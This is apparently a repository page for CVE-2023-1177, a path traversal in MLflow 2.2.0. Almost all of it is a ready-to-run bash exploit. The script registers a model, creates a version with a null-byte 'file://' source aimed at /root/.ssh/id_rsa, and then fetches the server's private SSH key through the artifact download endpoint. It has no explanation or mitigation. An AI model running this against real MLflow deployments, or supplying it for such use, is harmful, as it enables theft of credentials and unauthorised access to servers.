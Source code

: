 #############
CVE-2023-1177
#############

|
| MLFlow Path Traversal
| Tested on MLflow 2.2.0
| src: https://github.com/iumiro/CVE-2023-1177-MLFlow
|

.. code-block:: bash

  #!/bin/bash
  RAND="EXPLOIT-$((1+$RANDOM%9999))"
  URL="http://172.17.0.2:6001"
  FILE='/root/.ssh/id_rsa'
  curl -vX POST "$URL/ajax-api/2.0/mlflow/registered-models/create" -d "{\"name\":\"$RAND\"}" -H "Content-Type: application/json"
  curl -vX POST "$URL/ajax-api/2.0/mlflow/model-versions/create" -d "{\"name\":\"$RAND\",\"source\":\"file://%00${FILE%/*}/\"}" -H "Content-Type: application/json"
  curl -v "$URL/model-versions/get-artifact?path=${FILE##*/}&name=$RAND&version=1"

|
